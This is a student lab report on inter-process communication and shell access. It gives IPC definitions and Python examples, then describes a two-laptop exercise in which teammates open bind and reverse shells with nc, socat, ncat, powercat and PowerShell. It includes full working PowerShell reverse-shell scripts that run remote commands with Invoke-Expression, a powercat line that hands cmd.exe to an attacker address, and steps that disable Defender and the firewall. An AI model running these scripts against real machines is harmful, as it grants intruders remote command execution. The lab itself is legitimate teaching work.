# 3 Technological Communication

Name of report: CSN_LAB_3_Nikita_Niakhai
Course: Computer Systems and Networks
Performed by Nikita Niakhai (username niktia)

---

Teammate is *MGBEMENA MMESOMACHUKWU CHUKWUEMEKA AKA Meso (uesrname `mgbemena-mmesomachukwu`, `kali`)*

## TASK 1

### 1.a. Define the following briefly:

**Process** — is a dynamic computer program with instructions that executes a task at a given time by one or many threads, allocated with memory, has it’s own lifecycle.

**Daemon** — is a background process of a system that performs various tasks without interfering (control) a user. There are different types of daemons like web server, network, printer, system log. Daemons are commonly used in Unix like **OS**es. Daemons can be implemented manually in varoius languages like C, C++, Python.

Usually daemons lifecycle is from start to the end of system’s (OS) lifecycle. But Unix OS provide some tools to manage daemons.

Examples are: httpd, syslogd. e.g. when you boot a PC operations like synchronisation with cloud, sending info to local printer are performed by daemonds processes.

**System call** — is user’s program request to OS for performing some tasks that OS is granded. It is a primary interface that allows programs to operate in a system. Such calls usually covered in some function/shell that hides actual system call and gives some user friendly form. These calls usually go to kernel and while calling a system CPU is also handled to kernel to perform such call. Examples of tasks awaking via system calls: input output, readin/writting files, fork() exit() for process management.

**Client & Server** — architecture of 2+tiers, that consists of 2 part Client and Server. Client part needs a user that sends requests from a web-app/mobile-app via some kind of interface that is being implemented in many languages and tech (AJAX, HTTP, SOAP and etc.). Server side provides business logic, security, authorization, that all together handles user’s requests and after all processing responds to a user via JSON, XML, Message of success, HTTP message using in modern times REST methods. Server consists of different services.

Also this architecture of server provides scalability. It is very flexible, fast.

Server provides a transparency for an end user and excludes user’s contact with Database structure.

**Peer to Peer** — is a decentralized system architecture where all peers all together create one system. They communicate only to each other and shared data processing capabilities. One big network of peers that each and every one acts as a server and as a client. No global time on each peer, multiple point of failure and control. Peer to Peer is used in torrent to exchange files.

### 1.b. List and briefly explain the different types of Unix system calls for IPC.

- Pipe — a method for communication between related processes. Data written to one end of the pipe can be read from the other end. It's often used for parent-child process communication.
- Shared memory — allows multiple processes to access the same memory region. One process writes data, and other processes can directly read it. Fast but requires synchronization (e.g., semaphores) to prevent data corruption.
- Semaphores — a mechanism used for synchronization between processes, ensuring that only one process accesses a critical section of code or resource at a time (slow, involves kernel) - “lock”.
- Futexes — fast locks used to synchronize threads in a multi-threaded application. Performed in user-space. They are lighter and more efficient than kernel-based semaphores. Don’t require kernel intervention, in most cases. Programms use futexes to locking in m-t apps.
- Message queues — mechanism that allows messages to exchanged between processes in defined order. These messages are queued by the operating system (kernel), and processes can retrieve them in a first-in-first-out (FIFO) order or FILO and etc. `msgsnd() msgrcv()`
- System V message queue — older version of communication messages via kernel-managed queue with predefined set of features, like prioritization, notifications for async communication. Complex. `msgsnd() msgrcv()`
- POSIX message queue — modernize and extend the capabilities of message-based communication, with features like priority support, asynchronous behavior, and more flexible operations than the older System V message queues. Easier and more flex than System V. `mq_open()`, `mq_send()`,`mq_receive()`

### 1.c. Explain for at least 2 kernel architectures, how IPC is handled.

**Linux (monolithic kernel):**
Linux offers many IPC tools in the kernel—pipes/FIFOs, sockets, message queues, shared memory with `mmap`, and fast locks with `futex`. The kernel sets up and arbitrates, but the fast path stays in user space (atomics, shared pages), with zero-copy helpers (`sendfile`, `splice`) for large transfers. This gives high throughput and low latency, but at the cost of a larger, more complex kernel that must handle access control and multiple IPC APIs.

**Microkernel (L4-style):**

Microkernels make IPC the core primitive. The kernel is small, focusing on fast, secure message passing—tiny messages via registers, large ones via page mapping. Most services (drivers, filesystems) run in user space, so IPC must be very cheap, and modern designs achieve microsecond overheads. This structure improves isolation and recoverability (faulty services can restart safely) but shifts complexity into user-space servers and requires careful capability management. Microkernels shine in modular, safety-critical systems; monolithic kernels remain better for general-purpose, high-throughput tasks.

## TASK 2

### 2.a. Define the various methods for Inter Process communication and provide
advantages and disadvantages respectively.

**Pipes:** A one-way conduit in which one process’s output feeds directly into another process’s input; commonly used between parent and child processes.

**Advantages**

- Straightforward and simple to implement.
- No explicit synchronization required in basic use.
- Reliable for transferring small amounts of data.

**Disadvantages**

- Data travels only in a single direction.
- Works only between related processes (typically parent/child).
- Small buffer capacity can cause blocking when full.
- **Message Queues:** Allow processes to exchange discrete messages asynchronously; the kernel stores messages in a queue until a receiver retrieves them.

Advantages and disadvantages of Message Queues for IPC

**Advantages**

- Asynchronous operation — sender and receiver need not be active at the same time.
- Preserve message ordering (FIFO semantics).
- Enable communication between unrelated processes.

**Disadvantages**

- Individual messages are limited in size.
- Kernel bookkeeping introduces additional overhead.
- Connectionless behavior: kernel does not track attached peers.
- **Shared Memory:** Allocates a memory region mapped into multiple processes’ address spaces so they can directly read/write the same data.

Advantages and disadvantages of Shared Memory for IPC

**Advantages**

- The fastest IPC option because it avoids kernel data copying.
- Highly efficient for transferring large volumes of data.

**Disadvantages**

- Requires explicit synchronization (e.g., semaphores, mutexes).
- If poorly synchronized, it risks race conditions and data corruption.
- **Named Pipes (FIFO):** Like anonymous pipes but identified by a name in the filesystem, enabling communication between unrelated processes.

Advantages and disadvantages of Named Pipes (FIFOs) for IPC

**Advantages**

- Support communication between unrelated processes.
- Persistent filesystem name makes them easy to find and open.

**Disadvantages**

- Still unidirectional unless two FIFOs are used.
- Slightly slower than unnamed pipes due to filesystem involvement.
- **Sockets:** Provide bidirectional channels for IPC; UNIX-domain sockets are local, while TCP/UDP sockets work over networks.

Advantages and disadvantages of Sockets for IPC

**Advantages**

- Work for both local and networked communication.
- Full-duplex: data can flow in both directions simultaneously.

**Disadvantages**

- Higher overhead relative to pipes or shared memory.
- More complex to configure and manage (addresses, protocols, etc.).
- **Semaphores:** Synchronization primitives that control concurrent access to shared resources across processes.

Advantages and disadvantages of Semaphores for IPC

**Advantages**

- Help prevent race conditions and provide mutual exclusion.
- Useful for managing limited resources and avoiding conflicts.

**Disadvantages**

- Can make program logic more complex and error-prone.
- Incorrect use may produce deadlocks or priority inversion.
- **Signals:** Lightweight notifications sent to a process to indicate events (for example, `SIGKILL` to terminate, `SIGCHLD` when a child exits).

Advantages and disadvantages of Signals for IPC

**Advantages**

- Very simple and fast mechanism for event notification.
- Universally available on Unix-like systems.

**Disadvantages**

- Conveys only limited information (a signal number).
- Unsuitable for transferring large or structured data.
- Excessive use can produce complicated, hard-to-maintain code.

### 2.b. What IPC facilities are currently on your system? Show the current activity in them.



### 2.c. Create two separate programs which implements inter process communication
(between parent process and child process) using shared memory and pipes, using any
programming language of your choice.

> [Here is the link to video.](https://disk.yandex.by/i/KjcU3xHxxiAmXw)

**Shared Memory example**

```bash
# lib that provides modules and functionality to implement IPC
from multiprocessing import Process, Array

# creating code (tasks, functuions) for processes 

def child(shared_memory):
    # because shared memory is an Array allocated with 1024 memory
    print(f"Jr. Vallos says: {''.join(shared_memory[:])}")

# this process will write a text to a shared memory
def parent(shared_memory):
    message = "Please, bring all guests to the hall, Mr. Vallos is ready."

    # Because I chose an Array, I need to assign each character of the message to the shared memory array
    for i in range(len(message)):
        shared_memory[i] = message[i]

# entry point of the code
if __name__ == "__main__":
    # assigning shared memory with a type and default value
    shared_memory = Array('u', 1024) # s - unicode type array with 1024 bytes of memory 

    # starting a child process
    p = Process(target=child, args=(shared_memory,)) # creating a child process and assigning it with instruction and memory
    p.start()

    # parent process writes to a shared memory 
    parent(shared_memory)

    # waiting for end of the child's processing 
    p.join()
```

**Pipe example**

```bash
import cv2
import base64
import numpy as np
from multiprocessing import Pipe, Process
from PIL import Image
from io import BytesIO
from pictex import Canvas, LinearGradient

def child(pipe):
    payload = pipe.recv()

    # Try to treat payload as base64-encoded image first
    try:
        img_bytes = base64.b64decode(payload, validate=True)
        img = Image.open(BytesIO(img_bytes)).convert("RGB")

        # Show/save the received image
        try:
            img.show(title="Captured Image")
        except Exception:
            pass  # ignore if no GUI
        img.save("received_image.png")
        print("[child] Saved received_image.png")

        # --- ASCII render ---
        width = 100
        height = max(1, int(width * (img.height / img.width)))
        gray = img.convert("L").resize((width, height))
        ramp = " .:-=+*#%@"
        lines = []
        for y in range(height):
            row = []
            for x in range(width):
                v = gray.getpixel((x, y))
                row.append(ramp[v * (len(ramp) - 1) // 255])
            lines.append("".join(row))
        print("\n[child] ASCII Art:\n")
        print("\n".join(lines))
        return
    except Exception:
        # Not a valid base64 image -> treat as text to render with pictex
        text_data = str(payload)

    # --- Styled text rendering with pictex (no background_radius) ---
    canvas = (
        Canvas()
        .font_family("/usr/share/fonts/truetype/dejavu/DejaVuSans-Bold.ttf")
        .font_size(64)
        .padding(20, 40)
        .background_color(LinearGradient(colors=["#2C3E50", "#4A00E0"]))
        .color("white")
        .add_shadow(offset=(3, 3), blur_radius=6, color="black")
    )
    img = canvas.render(text_data)
    try:
        img.show(title="Rendered Text")
    except Exception:
        pass
    img.save("rendered_text.png")
    print("[child] Saved rendered_text.png")

# Parent function to capture an image, encode it, and send it to the child
def parent(pipe):
    # Capture the image from the camera (0 for default camera)
    cap = cv2.VideoCapture(0)
    ret, frame = cap.read()

    if ret:
        # Convert the frame to a PIL image
        img = Image.fromarray(cv2.cvtColor(frame, cv2.COLOR_BGR2RGB))

        # Save the image as a byte object
        byte_arr = BytesIO()
        img.save(byte_arr, format="PNG")
        img_data = byte_arr.getvalue()

        # Encode the image data to base64 for sending over the pipe
        encoded_image = base64.b64encode(img_data).decode("utf-8")

        # Send the encoded image to the child process
        pipe.send(encoded_image)

    # Release the camera and close the OpenCV window
    cap.release()

if __name__ == "__main__":
    # Create a pipe for communication between parent and child
    parent_conn, child_conn = Pipe()

    # Create and start the child process
    p = Process(target=child, args=(child_conn,))
    p.start()

    # Parent captures an image and sends it to the child
    parent(parent_conn)

    # Wait for the child process to finish
    p.join()
```

## TASK 3

### 3.a.

1. We used ethernet cable to create LAN between our laptops.
2. We did setup virtual boxes on our laptops (kali linux os).
3. Then we configured network settings to *shared bridge.*



Nikita’s config



Meso’s system config

1. Then we configured network interfaces inside OS. Changed file named `interfaces` inside `etc/nano` .

    Configuration goal is to set static addresses, so that me and Meso have different IP addresses inside our local net. Without this configuration we have similar address.

    Mine address is `192.168.56.103`

    Meso’s address is `192.168.56.102`

    Local hotsop address (Meso’s) is `192.168.180.73`

    P.S. Such configuration disconnects us from the WEB, so further it will lead to many switches from this to default network configuration, in order to install packages.

    Command to edit file:`sudo nano /etc/network/interfaces`



Nikita’s config



Meso’s config - 1

1. We reboot our pcs and reboot our network configs.

    Command to reboot net config (1): `sudo systemctl restart networking`

    Command to reboot net config (1): `sudo systemctl restart NetworkManager`

My address is ends on 103, Attacker is 102.


Meso’s screenshot - reboot of kali

1. In order to check if everything is setup correctly we pinged each others IPs. Success. Screenshot is a template.



Nikita’s screenshot



Meso’s screenshot - pinging Nikita

### Bind shell `nc`. Victim - Nikita

1. Trying bind shell on 1234 port. I opened 1234 port and attacker connected.

    `-e` flag means execute bash



Victim’s console - connection established



Attacker’s console - connection established

1. Attacker created a file on my desktop named `hacked.txt`. And I am checking it’s content. Everything is right.



Attacker’ console - file on desktop created



Victim’s console - content of attacker’s file



Victim’s console - content of all processes

1. I decided to check presence of intruder on my PC using `ps aux` . Screenshot presents all process on kali machine (snapshot of all current processes). In the list I found 3 strange processes. Now I need to terminate those processes to disconnect intruder.



Victim’s console - deleting processes



Attacker’s console - access was disestablished

1. Turned out that I terminated beautiful command line of Atacker (which actually was 2 processes with ids `16451`, `16450`). Takeaway: attacker decided to create a CLI inside CLI using python.
2. Terminated process with id`16056` - original reverse connection and also I see that my connection on bg terminal is ended (e.g. I am disconnected from attacker malicious server).

### Reverse shell `nc`. Attacker - Nikita



Attacker’s console



Victim’s console

### Reverse shell via `socat`. Attacker - Nikita.

1. Connected successful. And in order to verify it, I use command `whoami` , that will display current user name on victim’s machine.



Attacker’s console - checking username



Victim’s console - connection to attacker established

1. While sitting close to Meso I saw his password to auth in OS, password is `kali` . Many commands are not accesible without root permission, so this glance at his display allowed me to access victim’s `sudo` and terminate his OS. It worked. Suddenly his VM is rebooted and Meso (Victim) is shocked xD



Attacker’s console - pipeline of attack

### Reverse shell using `powercat`. Victim - Nikita



Github of powercat

1. Connecting (`-c`) to attacker’s server on ip … and `1234` port and executing (`-e`) bash



Victim’s console - pipeline of attack

 14.1 Attacker connected



Victim’s console - pipeline of attacker’s actions

### Reverse shell using `ncat`. Attacker - Nikita

1. So I am listening to connection (`-l` flag) and victim connects.



Attacker’s console - checking username, now Meso used different username

1. I have created malicious file [text.md](http://text.md) inside victim’s root folder.
2. I opened new CLI inside default CLI to have better UI. I used python.



Attacker’s console - pipeline of commands

1. Victim sees in CLI log of attacker’s actions: he tries commands, but lacks permission.



Victim’s console - log of attacker’s actions

1. P.S. When we used `—ssl` flag, connection was not successful, because SSL allowed secure data exchange. This is one of pros of using`ncat`.



Attacker’s console - trying to attack with `-ssl` on

### Use `powershell` to bend shell. Attacker - Nikita

1. We installed and set up powershell. It required importing it as module in windows, turning of windows defender and firewall setting as well as allowing scripts to go on.
2. Also for LAN, instead of Ethernet cable, we decided to use local hotstop created on Meso’s IPhone, so that new IP address `192. 168.180. 73`



Nikita’s screenshot - `powercat` installation 1


Nikita’s screenshot - `powercat` installation 2

1. In order to connect, we found such scripts for victim and for attacker.

```bash
[attacker_ip]$client = New-Object System.Net.Sockets.TcpClient("192.168.180.73", 1234)
$stream = $client.GetStream()
$reader = New-Object System.IO.StreamReader($stream)
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true
while ($true) {
    $command = Read-Host "Attacker> "
    $writer.WriteLine($command)
    $response = $reader.ReadLine()
    Write-Host $response
}
$client.Close()
```

**Attacker’s code to connect to listening victim**

```bash
$listener = [System.Net.Sockets.TcpListener]1234
$listener.Start()
$client = $listener.AcceptTcpClient()
$stream = $client.GetStream()
$reader = New-Object System.IO.StreamReader($stream)
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true
while ($true) {
    $command = $reader.ReadLine()
    if ($command -eq 'exit') { break }
    $output = Invoke-Expression $command
    $writer.WriteLine($output)
}
$listener.Stop()
```

**Listening victim code**

1. After connecting to victim I decided to play random sound and it worked 3 times we heard different sounds. I found on stackoverflow such script.



Attacker’s screenshot - Connection, running script for random sounds



Victim’s screenshot - listening to connections


Victim’s screenshot - secret content 1


Victim’s screenshot - secret content 2

1. Next. I have found a file in a secret folder on Victim’s Desktop and interchanged it content with my `hi.txt` file that I have on python server, running in shell. So content of victim’s file is erased and now contains my sentence.



Attacker’s screenshot - content of `hi.txt`, python server running on attacker’s machine, script to interchange content of files



Victim’s screenshot - secret is modified

### Using `powershell` to reverse shell. Victim - Nikita

1. Again some working code to establish connection.

**Code I run firstly:**

```bash
$client = New-Object System.Net.Sockets.TcpClient("192.168.180.73", 1234)
$stream = $client.GetStream()
$reader = New-Object System.IO.StreamReader($stream)
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true

while ($true) {
    # Read commands from the attacker
    $command = $reader.ReadLine()
    if ($command -eq 'exit') { break }

    # Execute the received command on the victim machine
    $output = Invoke-Expression $command

    # Send the output back to the attacker
    $writer.WriteLine($output)
}

$client.Close()
```

**Code attacker runs:**

```bash
# Attacker listens for incoming connection from victim
$listener = [System.Net.Sockets.TcpListener]1234
$listener.Start()
$client = $listener.AcceptTcpClient()
$stream = $client.GetStream()
$reader = New-Object System.IO.StreamReader($stream)
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true

Write-Host "Waiting for incoming connection..."

while ($true) {
    # Read commands from the attacker
    $command = Read-Host "Attacker> "
    $writer.WriteLine($command)

    # Receive the output from the victim and display it
    $response = $reader.ReadLine()
    Write-Host $response

    if ($command -eq 'exit') {
        break
    }
}

$listener.Stop()
$client.Close()
```

1. Listening on `1234` port.

Nikita’s powershell:



Victim’s screenshot - connecting to attacker



Attacker’s screenshot - listening and connecting

### **UNSECCESFUL: Using powershell and powercat in windows to do bend and reverse shell**

 ****

1. Turn of windows defender and firewall
2. Connect via phone hotspot to one network
3. Install powercat via `git clone`
4. Install it as import module in power shell


1. `.\powercat.ps1 -c [attacker_ip] -p 1234 -e cmd.exe`



### 3.b. List and give short explanations on the shell types in linux.

1. **sh (Bourne shell)**

The original Unix shell. Simple scripting features, POSIX-ish behavior. Often /bin/sh is a POSIX compatible shell used for portability.

1. **bash (Bourne Again SHell)**

The most common interactive/login shell on Linux. Adds usability features (command history, job control, tab completion), arrays, extended syntax. Good for both interactive use and scripting.

1. **dash (Debian Almquist shell)**

A very small, fast POSIX-compatible shell used as /bin/sh on some systems (Debian/Ubuntu for scripts). Minimal features — chosen for speed in boot scripts.

1. **ksh (KornShell)**

Powerful scripting features, associative arrays and advanced programming facilities. Historically influential; some commercial and legacy scripts use it.

1. **zsh (Z shell)**

Highly interactive and configurable — fancy completion, globbing, prompts, plugins (oh-my-zsh). Popular with power users.

1. **fish (Friendly Interactive SHell)**

Focuses on user-friendliness: sane defaults, syntax highlighting, autosuggestions. Not fully POSIX compatible (so less used for portable scripts).

1. **tcsh / csh (C shell family)**

csh introduced C-like syntax; tcsh is an enhanced, interactive-friendly version. Less common for scripting today because of quirks; occasionally used interactively.

1. **ash (Almquist shell) / busybox sh**

Tiny shell implementations used in embedded systems and init scripts. Low memory footprint, minimal features.

1. **mksh (MirBSD KornShell)**

A modern, portable variant of ksh with improvements and portability.

### **3c. What is netcat’s gaping security hole? Recreate and explain it**

Netcat is a general-purpose network utility that can open TCP/UDP ports and connect standard input/output to network sockets. The dangerous property is that some netcat versions can be told to run programs (including a shell) on incoming connections, and netcat itself does not provide authentication or access control. That combination makes it trivial (if misused or left running on an exposed interface) to allow remote command execution (i.e., a remote actor gets a shell on the machine).

Key risky elements include:

- Netcat can bind/listen on a TCP port and pipe data into/out of a program.
- Some implementations support an option to execute a program upon connection (historically -e or -c). If that program is a shell, the remote party effectively gets an interactive shell.
- Netcat does not handle authentication, authorization, or encryption by itself (unless you use a variant that adds TLS). If listening on a public interface, anyone who can reach the port can interact with the program you exposed.

To recreate the gaping hole, we implemented a reverse shell with *nikita* being the victim machine and *mgbemena-mmesomachukwu*, the attacking machine.

In the attacking machine,we we have *ncat –lvp 5000*, where

- l tells netcat to be in a listen mode;
- v tells netcat to be verbose
- p tells netcat the port which it should be listening at for a connection

In the victim machine, we have *ncat 127.0.0.1 5000 –c ‘uptime’*, where

- c tells netcat to execute a command on the victim machine. In this case, we check the uptime of the victim machine.

On the attacker machine, we get the result of the executed command, thus, we have a Remote Code Execution (RCE) to a victim without the need for authorisation



Figure 1 Attacker machine listening and receiving the resultof the executed command


Figure 2 Victim machine carrying out a reverse shell connection alongside a bash command
